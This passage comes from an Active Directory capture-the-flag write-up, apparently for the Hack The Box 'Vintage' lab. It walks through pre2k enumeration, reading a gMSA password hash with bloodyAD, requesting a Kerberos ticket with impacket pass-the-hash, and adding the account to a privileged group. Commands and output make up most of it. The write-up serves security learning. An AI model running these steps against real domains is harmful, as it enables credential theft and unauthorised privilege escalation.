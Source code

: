 Downloaded Pre2k, which is a tool to query for the existence of pre-windows 2000 compuoterobjects which can be leveraged to gain a foothold in a target domain:
```sh
pre2k unauth -d vintage.htb -dc-ip 10.10.11.45 -save -inputfile /home/hacker/htb/vintage/users.txt
```

Next, FS01 belongs to the Domain Computers group and can read the password of the gMSA (Group Managed Service Account).
![[Snipaste_2024-12-02_16-54-40.png]]

Now we want to read the password hash of th eGMSA01 account
```sh
export KRB5CCNAME=FS01\$.ccache
```
For this we willl use bloodyad
```sh
python bloodyAD.py --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k get object 'GMSA01$' --attr msDS-ManagedPassword

distinguishedName: CN=gMSA01,CN=Managed Service Accounts,DC=vintage,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:7dc430b95e17ed6f817f69366f35be06
msDS-ManagedPassword.B64ENCODED: sfyyjet8CbAO5HFzqbtcCtYlqyYohprMvCgeztWhv4z/WOQOS1zcslIn9C3K/ucxzjDGRgHJS/1a54nxI0DxzlhZElfBxQL2z0KpRCrUNdKbdHXU/kzFj/i38JFgOWrx2FMIGKrEEIohO3b2fA/U/vlPxw65M+kY2krLxl5tfD1Un1kMCByA1AI4VuR5zxXSfpnzFIxKlo1PKBJUxttMqbRM21I5/aLQnaIDCnr3WaqfU6lLwdGWxoz6XSD3UiqLaW5iDPYYR47kJpnflJgS0TBUBkvd2JiLiOb5CXF1gBgUsbVLtBo/OWW/+lrvEpBtS7QIUFsOKMIaNsKFGtTkWQ==
```

by using this hash we can request a TGT ticket. 
```sh
impacket-getTGT vintage.htb/'gmsa01$' -hashes :7dc430b95e17ed6f817f69366f35be06  -dc-ip dc01.vintage.htb 

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
[*] Saving ticket in gmsa01$.ccache
```
Now its time to check the permissions of the GMSA01 account,k which ahs the permissions to write to servicemanagers group and add itself:
![[Snipaste_2024-12-02_09-30-04.png]]
Without thinking too much, add the GMSA01 account to the SERVICEMANAGERS group. Unfortunately, the pth-net command in the bloodhound help does not work, NTLM authentication is not enabled, and bloodyAD must be used.
```sh
export KRB5CCNAME=gmsa01\$.ccache
```

```sh
python bloodyAD.py --host "dc01.vintage.htb" -d "vintage.htb" --kerberos --dc-ip 10.10.11.45 -u 'GMSA01$' -k  add groupMember "CN=SERVICEMANAGERS,OU=PRE-MIGRATION,DC=VINTAGE,DC=HTB"  'GMSA01$'


[+] GMSA01$ added to CN=SERVICEMANAGERS,OU=PRE-MIGRATION,DC=VINTAGE,DC=HTB
```

Now we need to check and see if it really joined:
```sh
python bloodyAD.py --host "dc01.vintage.htb" -d "vintage.htb" --kerberos --dc-ip 10.10.11.45 -u 'GMSA01$' -k  get object "CN=SERVICEMANAGERS,OU=PRE-MIGRATION,DC=VINTAGE,DC=HTB"  --attr member

distinguishedName: CN=SERVICEMANAGERS,OU=PRE-MIGRATION,DC=VINTAGE,DC=HTB
member: CN=C.Neri,CN=Users,DC=vintage,DC=htb; CN=G.Viola,CN=Users,DC=vintage,DC=htb; CN=L.Bianchi,CN=Users,DC=vintage,DC=htb; CN=gMSA01,CN=Managed Service Accounts,DC=vintage,DC=htb
```
